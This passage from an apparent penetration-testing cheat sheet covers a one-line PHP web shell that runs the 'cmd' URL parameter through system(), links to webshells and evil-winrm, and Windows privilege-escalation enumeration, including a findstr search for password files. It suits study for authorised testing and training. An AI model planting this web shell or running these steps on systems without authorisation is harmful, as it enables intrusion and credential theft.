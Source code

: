         <?php if(isset($_GET['cmd'])) { system($_GET['cmd']); } ?>
        ```
- Configure terminal tty size to use a text editor
    ```bash
    stty -a # list tty settings
    stty rows <number> # set to row output from stty -a
    stty cols <number> # set to col output from stty -a
    ```
- See `/usr/share/webshells` for webshells available on default Kali
- [evil-winrm](https://github.com/Hackplayers/evil-winrm)
- [Poison null byte](https://defendtheweb.net/article/common-php-attacks-poison-null-byte)


## 4. Privilege Escalation (Priv Esc)
### Windows
#### Automated Tools
- [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- [Seatbelt](https://github.com/GhostPack/Seatbelt): C# project that performs "safety checks" on a Windows host
- [Windows Exploit Suggester - Next Generation](https://github.com/bitsadmin/wesng): python script that 
- Metaspoit module `multi/recon/local_exploit_suggester`: list vulnerabilities for the target system

#### Manual Enum
- `C:\Windows\Temp`: world writeable temp directory
- `C:\Program Files (x86)\SystemScheduler\Events`: windows scheduled services event logs
- `C:\Windows\System32\drivers\etc\hosts`: /etc/hosts for Windows
- Info
    - `whoami /priv`: list all privileges
    - `hostname`: show hostname
    - `net users`: list users
    - `net users <username>`: list details of username
    - `net localgroup`: list user groups defined on the system
    - `net localgroup <groupname>`: list member of a group
    - `query session`: show other users logged in simultaneously
    - `sc query`: lists running services
    - `sc query <service`: get information on service
    - `wevtutil`: retrieve info about event logs and publishers
    - `systeminfo`: return overview of target system
- Files / Search
    - `findstr`: cmd grep
    - `findstr /si password *.txt`: recursively search the current directory for .txt files with the name "password" ignoring case
- Windows Updates
    - `wmic qfe get Caption,Description,HotFixID,InstalledOn`: list updates installed on the system
- Scheduled Tasks
    - `schtasks /query /fo LIST /v`: list scheduled tasks
    - Look for tasks with lost binaries or binaries you can edit
- Drivers
    - `driverquery`: list available drivers
        - drivers are less frequently updated and may present a vulnerability
- Software / Services
    - `wmic product get name,version,vendor`: list installed software (may not return all installed programs)
    - `wmic service list brief`: list running services
    - `wmic service get name,displayname,pathname,startmode`: list running services
    - `netstat -ano`: list al listening ports
        - can try port forwarding any ports that are unreachable from the outside as another potential vector
- AV
    - `sc query windefend`: return state of Windows Defender service (windefend)